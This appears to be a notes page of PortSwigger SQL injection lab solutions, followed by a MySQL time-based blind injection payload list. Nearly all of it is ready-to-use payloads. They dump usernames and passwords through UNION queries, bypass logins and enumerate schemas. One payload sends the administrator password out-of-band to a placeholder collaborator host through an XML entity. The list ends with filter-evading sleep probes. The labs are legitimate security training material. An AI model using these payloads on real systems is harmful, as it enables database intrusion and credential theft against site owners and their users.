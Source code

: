 ### Portswigger Labs

## SQL injection UNION attack, determining the number of columns returned by the query
# Keep adding NULL until the error disappears
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL--

## SQL injection UNION attack, finding a column containing text
'+UNION+SELECT+NULL,NULL,NULL--
'+UNION+SELECT+'abcdef',NULL,NULL--

## SQL injection UNION attack, retrieving data from other tables
'+UNION+SELECT+'abc','def'--.
'+UNION+SELECT+username,+password+FROM+users--

## SQL injection UNION attack, retrieving multiple values in a single column
'+UNION+SELECT+NULL,'abc'--
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

## SQL injection attack, querying the database type and version on Oracle
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

## SQL injection attack, querying the database type and version on MySQL and Microsoft
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

## SQL injection attack, listing the database contents on non-Oracle databases
'+UNION+SELECT+'abc','def'--.
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--

## SQL injection attack, listing the database contents on Oracle
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

## Blind SQL injection with time delays
TrackingId=x'||pg_sleep(10)--

## Blind SQL injection with out-of-band interaction
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.

## Blind SQL injection with out-of-band data exfiltration
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
'+OR+1=1--

## SQL injection vulnerability allowing login bypass
administrator'--

#### MySQL Blind (Time Based) Payload list:

- 0'XOR(if(now()=sysdate(), sleep (5),0)) XOR'Z
- 0'XOR(if(now()=sysdate(), sleep(5*1),0))XOR'Z
- if(now()=sysdate(), sleep (5),0)
- 'XOR(if(now()=sysdate(), sleep(5),0))XOR'
- 'XOR(if(now()=sysdate(), sleep(5*1),0))OR'
- if(now()=sysdate(), sleep (5),0)/"XOR(if (now()=sysdate(), sleep(5),0))OR"/
- if(now()=sysdate(), sleep (5),0)/*'XOR(if(now()=sysdate(), sleep(5),0))OR' "XOR(if(now()=sysdate(), sleep (5),0))OR"*/
- if(now()=sysdate(), sleep(5),0)/'XOR(if (now()=sysdate(),sleep(5),0))OR' "XOR(if(now()=sysdate(), sleep (5),0) and 5=5)"/
- SLEEP(5)/*' or SLEEP(5) or '" or SLEEP(5) or "*/
- %2c(select%5+%5from%5(select(sleep(5)))a)
- (select(0)from(select(sleep(5)))v)
- (SELECT SLEEP(5))
- '%2b(select*from(select(sleep(5)))a)%2b'
- (select*from(select(sleep(5)))a)
- 1'%2b(select*from(select(sleep(5)))a)%2b'
- (select * from (select(sleep(5)))a)
- desc%2c(select*from(select(sleep (5)))a)
- -1+or+1%3d((SELECT+1+FROM+(SELECT+SLEEP(5))Α))
- 1+or+1=((SELECT+1+FROM+(SELECT+SLEEP(5))A)) - (SELECT * FROM (SELECT(SLEEP(5)))YYYY)
- (SELECT * FROM (SELECT(SLEEP(5)))YYYY)#
- (SELECT * FROM (SELECT(SLEEP(5)))YYYY) --
- '+(select*from(select(sleep(5)))a)+'
- select(0)from(select(sleep(5)))v)%2f'+ (
- (select(0)from(select(sleep(5)))v)+'"
- (select(0)from(select(sleep(5)))v)%2f*'+
- (select(0)from(select(sleep(5)))v)+'"+
- (select(0)from(select(sleep(5)))v)+"*%2f
- (select(0)from(select(sleep(5)))v)/*'+
- (select(0)from(select(sleep(5)))v)+'"+
- (select(0)from(select(sleep(5)))v)+"*/
- ',''), /*test*/%26%26%09sLeEp(5)%09--+

